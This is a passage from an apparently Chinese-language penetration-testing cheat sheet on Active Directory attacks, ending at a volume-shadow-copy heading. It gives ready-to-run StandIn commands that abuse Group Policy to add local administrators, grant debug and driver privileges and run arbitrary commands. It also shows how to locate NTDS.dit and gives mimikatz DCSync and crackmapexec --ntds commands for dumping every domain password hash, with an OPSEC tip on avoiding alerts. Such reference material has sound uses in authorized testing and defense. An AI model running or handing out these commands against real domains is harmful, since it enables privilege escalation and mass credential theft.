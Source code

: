 ### 使用StandIn滥用GPO

```powershell
# 添加本地管理员
StandIn.exe --gpo --filter Shards --localadmin user002

# 为用户设置自定义权限
StandIn.exe --gpo --filter Shards --setuserrights user002 --grant "SeDebugPrivilege,SeLoadDriverPrivilege"

# 执行自定义命令
StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"
```

## 转储AD域凭据

提取ntds需要以下文件：

- NTDS.dit文件
- SYSTEM注册表项（`C:\Windows\System32\SYSTEM`）

通常可以在两个位置找到ntds：`systemroot\NTDS\tds.dit` 和 `systemroot\System32\tds.dit`。

- `systemroot\NTDS\tds.dit` 存储在域控制器上使用的数据库。它包含域的值和森林（配置容器数据）的值的副本。
- `systemroot\System2\tds.dit` 是在运行Windows Server 2003或更高版本的服务器上安装Active Directory时使用的默认目录的分发副本。因为此文件可用，所以可以在不使用服务器操作系统CD的情况下运行Active Directory安装向导。

但是，您可以将位置更改为自定义位置，您需要查询注册表以获取当前位置。

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

### DCSync攻击

DCSync是一种技术，攻击者利用它从Active Directory环境中的域控制器获取敏感信息，包括密码哈希。任何属于Administrators、Domain Admins或Enterprise Admins以及域控制器计算机账户的成员都能够运行DCSync来拉取密码数据。

* 仅DCSync一个用户

  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```

* DCSync域的所有用户

  ```powershell
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv
  
  crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  crackmapexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```

> :warning: OPSEC注意：复制总是在2台计算机之间进行。从用户账户进行DCSync可能会引发警报。


### 卷影复制
